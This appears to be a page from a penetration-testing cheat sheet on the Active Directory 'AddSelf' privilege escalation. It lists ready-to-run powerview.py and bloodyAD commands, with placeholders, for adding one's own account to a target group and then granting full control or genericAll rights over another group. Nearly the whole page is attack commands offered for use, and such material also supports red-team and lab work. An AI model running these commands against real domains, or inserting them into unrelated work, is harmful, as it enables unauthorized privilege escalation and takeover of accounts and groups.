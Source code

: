 ```yaml
---
title: "AddSelf"
date: 2024-8-2
tags: ["addself", "active directory", "ad", "domain controller", "Windows", "powerview", "bloodAD", "privesc"]
---
```


### Privesc #1: Add self to group (From Linux)

{{< tab set1 tab1 active >}}powerview.py{{< /tab >}}
{{< tab set1 tab2 >}}bloodyAD{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
# Connect
sudo ntpdate -s <DC> && powerview '<DOMAIN>/<USERNAME>:<PASSWORD>@<TARGET_DOMAIN>'
```

```console
# Add self to group
Add-DomainGroupMember -Identity <TARGET_GROUP> -Members <USERNAME>
```

```console
# Check
Get-DomainGroupMember -Identity <TARGET_GROUP>
```

```console
# Exit and login again to apply changes
Add-DomainObjectAcl -TargetIdentity <ANOTHER_GROUP> -PrincipalIdentity <USERNAME> -Rights fullcontrol
```

```console
# Check
Get-DomainObjectAcl -Identity <TARGET_USER_IN_ANOTHER_GROUP> -Where 'SecurityIdentifier contains <USERNAME>'
```

</div>

<small>*Ref: [powerview.py](https://github.com/aniqfakhrul/powerview.py)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```console
# Add self to group
python3 bloodyAD.py -d <DOMAIN> -u <USERNAME> -p '<PASSWORD>' --host <DC> add groupMember <TARGET_GROUP> <USERNAME>
```

```console
# With Kerberos
python3 bloodyAD.py -d <DOMAIN> -u <USERNAME> -k --host <DC> add groupMember <TARGET_GROUP> <USERNAME>
```

```console
# After getting full control of target group (e.g. TARGET_GROUP has genericall over ANOTHER_GROUP)
python3 bloodyAD.py -d <DOMAIN> -u <USERNAME> -p '<PASSWORD>' --host <DC> add genericAll 'OU=<ANOTHER_GROUP>,DC=<EXAMPLE>,DC=<COM>' <USERNAME>
```

</div>

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}

<br>